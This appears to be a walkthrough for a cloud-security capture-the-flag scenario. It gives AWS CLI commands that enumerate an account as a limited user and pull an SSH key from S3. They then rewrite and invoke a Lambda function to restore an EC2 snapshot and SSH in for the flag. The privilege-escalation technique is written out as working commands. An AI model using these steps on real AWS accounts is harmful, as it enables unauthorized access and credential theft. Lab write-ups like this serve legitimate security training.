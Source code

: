 
## Reconnaissance

1. Assume the "ls-user" role
   ```
   aws configure --profile ls-user
   ```

2. List policies attached to the "ls-user":
   ```
   aws iam list-attached-user-policies --user-name ls-user
   ```

3. List available EC2 snapshots:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-snapshots --owner-ids self
   ```

   Optional: Attempt to restore the snapshot as the ls-user directly (Will not work)
   ```
   aws ec2 create-volume --snapshot-id <snapshot-id> --availability-zone us-east-1a
   ```
   
5. List available Lambda functions:
   ```
   aws --profile ls-user --region us-east-1 lambda list-functions
   ```

6. List S3 buckets and their contents:
   ```
   aws --profile ls-user --region us-east-1 s3 ls
   ```

   ```
   aws --profile ls-user --region us-east-1 s3 ls s3://<bucket-name>
   ```

7. Download the SSH key from the S3 bucket:
   ```
   aws --profile ls-user --region us-east-1 s3 cp s3://<bucket-name>/ssh_key ./ssh_key.pem
   chmod 400 ssh_key.pem
   ```

*Dont forget to change the permissions of the ssh key*
   ```
   chmod 400 ssh_key.pem
   ```
8. List AMIs:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-images --owners self
   ```

8. List subnets:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-subnets
   ```

9. List security groups:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-security-groups
   ```


## Lambda Function Invocation

1. Download the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda get-function --function-name RestoreSnapshot --query 'Code.Location' --output text | xargs curl -o lambda_function.zip
   ```

2. Update the Lambda function code with the necessary resources discovered during reconnaissance (snapshot ID, AMI ID, subnet ID, security group ID).

3. Zip the updated Lambda function code:
   ```
   zip lambda_function.zip lambda_function.py
   ```

4. Update the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda update-function-code --function-name RestoreSnapshot --zip-file fileb://lambda_function.zip
   ```

5. Invoke the Lambda function:
   ```
   aws --profile ls-user --region us-east-1 lambda invoke --function-name RestoreSnapshot output.txt
   ```


## Accessing the Restored EC2 Instance

1. List running EC2 instances:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-instances --filters "Name=instance-state-name,Values=running"
   ```

2. SSH into the restored EC2 instance:
   ```
   ssh -i ssh_key.pem ec2-user@<public-ip>
   ```

3. Find the flag inside the EC2 instance to complete the scenario.

4. Terminate the EC2 instance once you are done (The "destroy" command will not remove the instance)
   ```
   aws ec2 terminate-instances --instance-ids YOUR_INSTANCE_ID
   ```





